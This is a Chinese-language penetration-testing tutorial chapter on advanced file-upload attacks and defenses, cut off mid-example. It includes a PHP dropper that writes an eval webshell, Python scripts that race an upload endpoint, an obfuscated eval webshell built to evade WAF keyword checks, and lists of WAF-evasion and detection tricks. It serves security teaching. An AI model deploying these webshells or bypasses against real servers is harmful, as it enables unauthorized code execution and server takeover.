






# 第24章 文件上传高级与防御

> **难度等级：🟠 高等级 → 🔴 特等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：条件竞争、二次渲染绕过、图片马高级利用、文件上传挖掘思路、WAF绕过、文件上传防御体系、安全编码实践**
>
> ::: tip 说明
> 前两章我们讲了文件上传的基础和进阶绕过。
>
> 这一章，
> 我们来聊点更高级的：
> - 条件竞争
> - 二次渲染绕过
> - 图片马的高级利用
> - 文件上传的挖掘思路
> - WAF绕过
> - 文件上传的防御
>
> 这一章内容比较综合，
> 也比较重要。
> 不仅要会攻击，
> 还要会防御。
>
> 让我们开始吧！
> :::

---

## 📖 本章概述

::: tip 写在前面
学完前两章，
常见的文件上传绕过你应该都会了。
前端绕过、MIME绕过、后缀绕过、
解析漏洞、00截断、.htaccess...

但是真实环境中，
可能还会遇到更复杂的情况：
- 上传后会被重命名，不知道路径怎么办？
- 图片会被二次渲染，图片马没用了怎么办？
- 有WAF拦截，传不上去怎么办？
- 怎么挖掘文件上传漏洞？
- 怎么防御文件上传漏洞？

这一章，
我们就来解决这些问题。

同时，
我们也会讲防御。
作为安全从业者，
不能只会攻击，
还要会防守。
知道怎么攻，
才能更好地防。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解条件竞争的原理和利用方法
- [x] 了解二次渲染的绕过思路
- [x] 掌握图片马的更多利用方式
- [x] 掌握文件上传漏洞的挖掘思路
- [x] 了解文件上传WAF绕过的方法
- [x] 理解文件上传的防御体系
- [x] 掌握安全编码实践
- [x] 能从攻防两个角度看文件上传
- [x] 建立完整的文件上传知识体系
- [x] 为实战打下坚实基础

---

## 💡 从基础绕过到实战：真实环境比靶场难在哪？

在正式开始之前，先帮大家理清一个问题：
**为什么学了前两章的基础绕过，还需要这一章？**

简单说，因为靶场和真实环境不一样。

**靶场的典型特点：**
- 验证逻辑很明确（黑名单就是黑名单，白名单就是白名单）
- 文件名、保存路径都清清楚楚告诉你
- 没有额外防护（WAF、CDN等）
- 上传后文件就在那，等你访问

**真实环境的典型特点：**
- 上传后文件名可能会被改成随机字符串 → 你不知道URL在哪
- 图片会被服务器压缩或处理（二次渲染）→ 你藏在图片里的代码可能被清掉
- 前面有WAF拦着 → 你的请求根本到不了后端
- 多个防御层叠加 → 单点突破不够，需要组合技

所以这一章要解决的四个核心问题：

| 真实环境的问题 | 对应对策 |
|--------------|---------|
| "文件被重命名了，不知道路径" | **条件竞争**：在被重命名/删除之前就访问 |
| "图片被压缩了，代码被删了" | **二次渲染绕过**：把代码藏到渲染后不会被删的位置 |
| "虽然有漏洞但WAF拦着" | **WAF绕过**：让WAF"看走眼"，放你的请求过去 |
| "怎么在复杂应用里找到上传点" | **挖掘思路**：像侦探一样系统地找入口 |

> 记住：**基础绕过决定你能不能攻破"最简单的情况"，
> 高级技巧决定你能不能攻破"真实世界的系统"。**
>
> 学完这一章，你就不再是只会打靶场的"新兵"了。

---

## 🏃‍♂️ 条件竞争（时间竞争）

第一个高级技巧：
**条件竞争**。
也叫时间竞争。

### 1.1 什么是条件竞争？

有些网站的上传逻辑是这样的：
1. 先把文件上传到服务器
2. 然后检查文件是否合法
3. 如果不合法，就删除
4. 如果合法，就保留（或者重命名）

问题来了：
**文件上传上去之后，
到被检查删除之前，
有一个时间差。**
虽然这个时间差很短，
可能只有几毫秒，
但如果我们在这个时间差内访问这个文件，
就能执行代码！

这就是条件竞争。
**和服务器比速度，
在文件被删掉之前访问它。**

### 1.2 利用原理

```
时间线：
T0: 上传shell.php → 文件在服务器上了
T1: 服务器开始检查文件
T2: 检查发现不合法，删除文件
    ↑
    在T0到T2之间访问，就能执行！
```

虽然时间很短，
但是只要我们不断地上传，
同时不断地访问，
总有一次能赶上。

就像抽奖一样，
多试几次，
总能中一次。

### 1.3 怎么利用？

**步骤：**

1. **准备一个PHP文件**
   内容是写一个WebShell到当前目录，
   比如：
   ```php
   <?php
       fputs(fopen('shell.php', 'w'), '<?php @eval($_POST["cmd"]); ?>');
   ?>
   ```
   这个文件的作用是：
   只要被访问一次，
   就会在当前目录生成一个shell.php。

2. **写两个脚本**
   - 一个不断上传这个文件
   - 一个不断访问这个文件的URL

3. **同时跑起来**
   一边疯狂上传，
   一边疯狂访问。
   只要有一次在文件被删之前访问到了，
   就会生成shell.php。
   shell.php生成后就一直在那了，
   就可以用了。

### 1.4 Python脚本示例

**上传脚本：**
```python
import requests

url = "http://target/upload.php"
files = {"file": ("test.php", open("test.php", "rb"), "image/jpeg")}

while True:
    try:
        r = requests.post(url, files=files)
    except:
        pass
```

**访问脚本：**
```python
import requests

url = "http://target/upload/test.php"

while True:
    try:
        r = requests.get(url)
        if r.status_code == 200:
            print("成功！")
            break
    except:
        pass
```

两个脚本同时跑，
一般几十秒到几分钟就能成功。

### 1.5 适用场景

条件竞争适用于：
- 先上传后检查再删除的逻辑
- 文件保存的路径和文件名是可知的
- 删除有延迟

常见于：
- 一些CMS的上传功能
- 自己写的上传逻辑（不严谨的）
- 某些中间件/框架的上传处理

### 1.6 怎么防御？

防御条件竞争也很简单：
- 先检查，后保存
- 不要先保存再检查
- 保存到web不可访问的目录，检查通过后再移动
- 用随机文件名，攻击者猜不到

> 经验之谈：
> **条件竞争是个很有意思的漏洞，
> 利用起来也很有成就感。
> 遇到上传后提示"文件不合法"的，
> 可以试试条件竞争，
> 说不定有惊喜。**

> **通俗理解：条件竞争——服务器的"反应太慢"**
>
> 条件竞争的实质是什么？
> 让我们用生活场景来理解：
>
> **场景一：保安和快递员的赛跑**
>
> 一个写字楼规定：快递不能放在前台超过5分钟。
> 前台的处理流程是：
> 1. 快递到了，放在前台
> 2. 前台打电话确认收件人
> 3. 如果5分钟内没人来取，就退回
>
> 你现在要在这栋楼里取一件"违规"的快递（相当于WebShell）。
> 策略很简单：不断寄快递到这个地址，同时在楼下等着。
> 快递一到，你冲进去拿。就算快递5秒后就被退了，
> 只要你刚好在它被退回前的5秒内拿到了，就成功了。
>
> **这就是条件竞争：你（攻击者）和前台（服务器）比速度。**
>
> **场景二：为什么要"不断上传，不断访问"？**
>
> 你可能会问：既然窗口只有几毫秒，为什么靠反复尝试就能成功？
>
> 这就像买彩票：
> - 单次中奖概率极低（比如百万分之一）
> - 但如果每秒买1万张，每分钟买60万张……
> - 几分钟之内总能中一次
>
> 条件竞争同理。一个上传请求可能花10-50毫秒，
> 服务端处理可能花10-100毫秒。
> 如果你用脚本每秒发送几十上百个请求，
> 持续几分钟，就几乎一定能赶上一次"文件已上传但还没被删除"的窗口。
>
> **根本原因：**
> 条件竞争之所以存在，是因为**服务器把"保存文件"和"检查文件"分成了两步**。
> 正确的做法是：**先检查，合格了再保存**。
> 但很多开发者的逻辑是"先存到临时目录，检查通过后再正式保存"，
> 这就留下了一个短暂但可被利用的时间窗口。
>
> 💡 一句话总结：
> **服务器"先斩后奏"（先保存后检查），
> 我们就在"斩"和"奏"之间的空隙里把事情办了。**

**图24-1 条件竞争原理与利用流程图**



---

## 🎨 二次渲染绕过

第二个高级技巧：
**二次渲染绕过**。

### 2.1 什么是二次渲染？

有些网站为了安全，
会对上传的图片进行二次处理，
比如：
- 压缩图片
- 裁剪图片
- 重新生成图片（用GD库等）
- 添加水印
- ...

这个过程就叫**二次渲染**。

二次渲染之后，
图片的内容会被重新生成，
原来的图片马里的PHP代码可能就被删掉了。

比如：
你上传了一个图片马（图片+PHP代码），
服务器用GD库重新生成了这张图片，
生成的新图片里就没有PHP代码了，
图片马就失效了。

这就是二次渲染的防御作用。

### 2.2 二次渲染的原理

二次渲染一般是这样的：
1. 上传图片
2. 用GD库（或ImageMagick等）打开图片
3. 处理图片（压缩、裁剪、加水印等）
4. 保存处理后的图片

因为图片是被重新生成的，
所以原始文件里藏的PHP代码就没了。

### 2.3 怎么绕过？

二次渲染不是完全不能绕过的，
关键在于：
**在图片的什么位置藏代码，
才能在二次渲染后保留下来？**

不同的图片格式，
绕过方法也不一样。

#### 2.3.1 JPG绕过思路

JPG比较复杂，
二次渲染后大部分内容都会变。
但是有一些位置可能保留，
比如：
- EXIF信息（图片的元数据）
- 一些注释字段
- ...

可以试试把PHP代码写到图片的EXIF信息里，
比如：
- 用exiftool修改图片的Artist、Comment等字段
- 把`<?php eval($_POST['cmd']); ?>`写进去
- 然后上传，看渲染后EXIF里的代码还在不在

如果渲染后EXIF信息还保留着，
那就成功了。

（当然，这也取决于二次渲染的方式，
有些会清除EXIF，有些不会。）

#### 2.3.2 PNG绕过思路

PNG也可以试试类似的方法，
比如：
- 修改PNG的文本块（tEXt chunk）
- 在里面藏PHP代码
- 看二次渲染后还在不在

PNG的文件结构是分块的，
有些块可能会被保留。

#### 2.3.3 GIF绕过思路

GIF相对来说更容易一些，
因为GIF的结构比较简单。

有一种方法：
**制作两帧的GIF，
第一帧是正常的图片，
第二帧里藏PHP代码。**
二次渲染可能只保留第一帧？
或者两帧都保留但代码还在？

具体要看渲染方式，
可以多试试。

### 2.4 实际操作建议

二次渲染绕过比较看运气，
不同的渲染方式、不同的图片格式，
结果都不一样。

建议的测试思路：

1. 上传一张正常的图片
2. 下载渲染后的图片
3. 对比原始图片和渲染后图片的差异
4. 看看哪些部分被保留了
5. 想办法把代码写到被保留的部分

这是个细心活，
需要耐心测试。

### 2.5 其他思路

如果二次渲染实在绕不过，
还可以试试其他方法：
- 配合文件包含漏洞（只要图片里有一点代码就行）
- 试试能不能上传.htaccess（如果是Apache）
- 看看有没有其他上传点
- 试试条件竞争

不要在一棵树上吊死。

> 经验之谈：
> **二次渲染绕过是个技术活，
> 也是个运气活。
> 不同的环境差异很大。**
>
> 遇到二次渲染的场景，
> 先上传一张正常图片，
> 再下载下来对比，
> 看看哪些部分被保留了。
> 然后针对性地构造Payload。
>
> 实在绕不过也正常，
> 换个思路，
> 说不定别的地方有突破口。

> **通俗理解：二次渲染——服务器"重新画了一遍"你的图片**
>
> 用生活中的例子来理解二次渲染：
>
> 假设你在一幅画里藏了一行小字（PHP代码）。
> 你把画交给一个"安全检查员"，他说：
> "没问题，不过我帮你临摹一遍再挂出去。"
>
> 他用笔重新画了一遍你的画，但画的时候：
> - 他只画了他认为"重要的部分"（图片的视觉内容）
> - 你藏的那行小字（代码），他觉得不是画的一部分，就没画
> - 最终挂出去的画，视觉上和原来一样，但藏的字没了
>
> **这就是二次渲染：服务器重新生成图片，保留视觉信息，丢弃非视觉信息。**
>
> **为什么PHP代码通常会被清掉？**
>
> 图片文件的结构就像一个"信封+信纸"：
> - 图片数据（像素信息）= 信纸上的内容
> - PHP代码 = 你在信封空白处写的东西
>
> GD库/ImageMagick打开图片时，会只读"信纸"（像素数据），
> 忽略"信封空白处"的内容。
> 然后，它用新的"信纸"和"信封"来重新制作图片——
> 新信封上当然没有你写的东西了。
>
> **绕过思路的本质："找到不会被橡皮擦擦掉的地方"**
>
> 既然服务器会重新生成图片，我们就需要找到它"不重写"的区域：
> - **EXIF信息**（照片的元数据，如拍摄时间、相机型号）→ 有时会保留
> - **PDF的Comment字段** → 经常被忽略
> - **GIF的多帧** → 渲染可能只处理第一帧
> - **PNG的文本块** → 有些文本块不被处理
>
> 思路就是：
> 1. 上传一张正常的图片
> 2. 下载渲染后的结果
> 3. 用二进制对比工具看看**哪些字节没变**
> 4. 把代码写到那些不变的字节区域里
>
> 💡 一句话总结：
> **服务器重新画了一遍你的画，把你藏的代码擦掉了。
> 要绕过，就得找到"橡皮擦不到的角落"。**

**图24-2 二次渲染原理与绕过思路图**



---

## 🖼️ 图片马的高级利用

图片马我们之前讲过，
这一节再深入聊一聊。

### 3.1 图片马的利用方式

图片马上传上去了，
但是后缀是.jpg，
怎么让它执行呢？

常见的利用方式有这些：

#### 方式1：配合文件包含漏洞

这是最常见的。
如果网站有文件包含漏洞，
就可以包含这个图片马，
执行里面的PHP代码。

比如：
```
/include.php?file=upload/shell.jpg
```
只要文件包含能读这个图片，
里面的PHP代码就会被执行。

**特点：**
- 不需要图片马被直接解析
- 只要文件内容里有PHP代码就行
- 配合文件包含威力很大

#### 方式2：配合解析漏洞

这个我们之前讲过：
- Apache解析漏洞：`shell.php.jpg`
- Nginx解析漏洞：`/shell.jpg/1.php`
- IIS解析漏洞：各种

利用解析漏洞让图片马被当成PHP执行。

#### 方式3：配合.htaccess

上传.htaccess，
让.jpg被PHP解析。
然后访问图片马就能执行。

#### 方式4：配合其他漏洞

还有一些其他的思路：
- SSRF + 伪协议：有些场景可以用
- 日志注入 + 文件包含：有点绕
- 数据库备份 + 包含：也可以

总之，
图片马的利用方式很多，
关键是找到能让它执行的路径。

### 3.2 图片马的隐藏技巧

怎么让图片马更隐蔽？

**技巧1：尽量用真实的图片**
不要就写个GIF头加一句PHP，
太明显了。
用真实的图片拼接，
更像真的。

**技巧2：把代码藏在中间或后面**
不要藏在最前面（文件头的位置太明显），
藏在中间或者最后面，
更隐蔽。

**技巧3：用注释包裹**
比如在图片的EXIF里，
或者在一些看起来像注释的地方，
藏代码。

**技巧4：编码/变形**
对一句话木马进行编码变形，
比如：
- base64编码后再解码执行
- 字符串拼接
- 回调函数
- ...

增加检测难度。

### 3.3 图片马的检测与识别

反过来，
怎么检测图片马？

**检测方法：**
1. **检查文件头**
   只能检测最简陋的图片马。

2. **二次渲染**
   重新生成图片，
   可以干掉大部分图片马。

3. **检测危险字符串**
   搜索`<?php`、`eval`、`assert`等关键字。
   但是可以被绕过。

4. **用getimagesize等函数**
   判断是不是真的图片。
   但是图片马也能通过。

5. **文件对比**
   上传前和二次渲染后对比，
   如果差异太大可能有问题。

6. **WAF/杀毒软件**
   专业的安全产品检测能力更强。

> 注意：
> **没有100%完美的检测，
> 也没有100%完美的绕过。
> 攻防是动态博弈的。**
>
> 最好的防御是多层防护，
> 不让任何一层成为单点故障。

**图24-3 图片马利用方式与检测博弈图**



---

## 🔍 文件上传漏洞挖掘思路

讲了这么多绕过，
那怎么发现文件上传漏洞呢？

### 4.1 找上传点

第一步，
找到网站的上传功能。

常见的上传点：
- 头像上传
- 图片上传
- 附件上传
- 文档上传
- 视频上传
- 音频上传
- 资料上传
- 反馈/留言上传
- 编辑器上传（富文本编辑器）
- 批量导入（Excel、CSV等）
- 主题/插件上传
- 备份恢复上传
- ...

只要有"上传"按钮的地方，
都值得测试。

### 4.2 指纹识别

找到上传点后，
先判断是什么环境：
- 什么语言？（PHP/ASP/JSP/...）
- 什么服务器？（Apache/Nginx/IIS/...）
- 什么操作系统？（Windows/Linux/...）
- 什么CMS？（WordPress/Discuz/...）
- 什么版本？

不同的环境，
绕过方法不一样。

怎么判断？
- 看URL后缀（.php、.asp、.jsp）
- 看HTTP响应头（Server、X-Powered-By等）
- 看报错信息
- 用指纹识别工具（比如Wappalyzer、WhatWeb）
- 搜CMS特征

### 4.3 测试流程

找到上传点后，
怎么测试？

给你一个测试的流程：

**第一步：传正常文件，摸清情况**
- 先传一张正常的图片
- 看看上传成功后返回什么
- 能不能看到文件路径
- 文件能不能访问
- 文件名有没有被修改

**第二步：传最简单的恶意文件，看拦截情况**
- 传个.php，看能不能上传
- 如果被拦了，看报错信息
- 判断是前端拦截还是后端拦截
- 判断是什么类型的验证

**第三步：逐个尝试绕过方法**
从简单到复杂，
一个一个试：
1. 前端验证绕过（抓包改）
2. MIME类型绕过
3. 文件头绕过
4. 黑名单特殊后缀绕过
5. 大小写绕过
6. 点/空格绕过（Windows）
7. ::$DATA绕过（Windows）
8. 双写绕过
9. .htaccess（Apache）
10. 解析漏洞
11. 00截断
12. 条件竞争
13. 二次渲染绕过
14. ...

**第四步：确认利用**
上传成功后，
确认能不能执行：
- 直接访问，看会不会执行
- 配合文件包含
- 配合解析漏洞
- ...

**第五步：进一步利用**
拿到WebShell之后：
- 信息收集
- 提权
- 内网渗透
- ...

### 4.4 注意事项

- **从简单到复杂**：先试简单的方法，不行再试难的
- **细心观察**：注意每一个报错、每一个返回细节
- **做好记录**：记录哪些试了、哪些没试、结果是什么
- **不要放弃**：有时候一个点绕不过，换个角度可能就成了
- **合法测试**：一定要在授权范围内测试！

### 4.5 工具辅助

手工测试的同时，
也可以用工具辅助：

- **BurpSuite**：抓包、改包、重放
- **Xray/AWVS**：扫描器可以自动发现一些上传漏洞
- **UploadScanner**：专门的文件上传扫描工具
- **fuzz字典**：各种后缀、文件名的fuzz字典

但是工具只是辅助，
最重要的还是你的思路和经验。

> 老K说：
> **"挖文件上传漏洞，
> 三分靠技术，
> 七分靠细心。**
>
> 很多时候，
> 漏洞就在那里，
> 就看你能不能发现。
>
> 多测、多想、多总结，
> 经验多了，
> 一眼就能看出哪里可能有问题。"

**图24-4 文件上传漏洞挖掘流程图**



---

## 🛡️ WAF绕过

真实环境中，
经常会遇到WAF（Web应用防火墙）。
WAF可能会拦截你的上传请求。
这时候就需要WAF绕过了。

### 5.1 常见的WAF检测点

WAF一般会检测这些：
- 文件名里的危险后缀
- 文件内容里的危险关键字（`<?php`、`eval`等）
- 请求包的特征
- 上传频率

### 5.2 常见的绕过思路

#### 思路1：分块传输（Chunked Transfer Encoding）

把HTTP请求体分成一块一块的传输，
有些WAF解析不了分块传输，
就检测不到了。

在Burp里可以用Chunked编码插件。

#### 思路2：各种编码绕过

对文件名、内容进行编码：
- URL编码
- Unicode编码
- 双重编码
- 十六进制编码
- ...

有些WAF解码不完整，
就可以绕过。

#### 思路3：数据溢出/填充

在请求里填充大量垃圾数据，
让WAF检测不过来（绕过WAF的检测长度限制）。
比如：
- 在Content-Disposition里加很多空格
- 加很多无用的header
- 加很多注释
- ...

#### 思路4：协议层绕过

利用HTTP协议的一些特性：
- 方法绕过：PUT方法、MOVE方法（WebDAV）
- Header绕过：各种奇怪的Header
- 换行、回车、制表符
- 文件名用引号、不用引号
- ...

不同WAF的解析方式不一样，
差异就是机会。

#### 思路5：文件名绕过

文件名的各种变形：
- 大小写
- 点、空格、特殊字符
-  Unicode字符
- 超长文件名
- 目录穿越（`../`）
- ...

#### 思路6：文件内容绕过

如果WAF检测文件内容里的`<?php`，
可以用一句话木马的变形：
- 不用`<?php`标签，用`<script language="php">`
- 字符串拼接
- base64编码
- 回调函数
- 异或、取反
- ...

只要功能等价，
形式可以千变万化。

#### 思路7：其他

- 条件竞争（在WAF反应过来之前完成利用）
- 分多次上传（一部分一部分传）
- 利用WAF自身的漏洞
- ...

### 5.3 注意事项

- WAF绕过是个不断博弈的过程
- 不同WAF的绕过方法不一样
- 需要耐心测试和尝试
- 一定要在授权范围内测试！

> 经验之谈：
> **WAF不是万能的，
> 但也不是吃素的。**
>
> 遇到WAF不要慌，
> 先搞清楚是什么WAF，
> 然后针对性地找绕过方法。
>
> 当然，
> 最好的情况是找到WAF没覆盖到的上传点，
> 直接绕过去。
> 毕竟，
> 绕过WAF的最好方式是找到它防护不到的地方。

> **通俗理解：WAF绕过——让门口的安检员"看走眼"**
>
> WAF就像一个门口的安检员，你的每个HTTP请求都要经过它。
> 它会检查你的"行李"（请求内容）里有没有危险物品（PHP代码、恶意后缀等）。
>
> **WAF绕过的核心矛盾：**
>
> WAF是一段代码，它按照规则来检测。
> 它看到的和最终接收你请求的后端服务器看到的，
> **可能不一样**。
>
> 举几个具体的例子：
>
> **例子1：编码绕过**
> 你写 `<?php`，WAF认识，拦住。
> 你写成 `%3C%3Fphp`（URL编码），WAF需要解码才能识别。
> 如果WAF的解码逻辑和后端服务器的解码逻辑有差异（比如WAF解了一次，服务器解了两次），
> WAF看到的还是乱码 → 放行；服务器看到的却是 `<?php` → 执行。
>
> **例子2：分块传输**
> 你把一个请求拆成很多小块发过去。
> WAF需要把所有块拼起来才能做完整检测。
> 但有些WAF为了性能，只检测前几块，或者拼接逻辑有bug。
> 你在这上面做文章。
>
> **例子3：变形免杀**
> WAF认识 `eval($_POST['cmd'])`。
> 但如果你写成：
> ```php
> $a = "ev"."al";
> $a($_POST['c'.'md']);
> ```
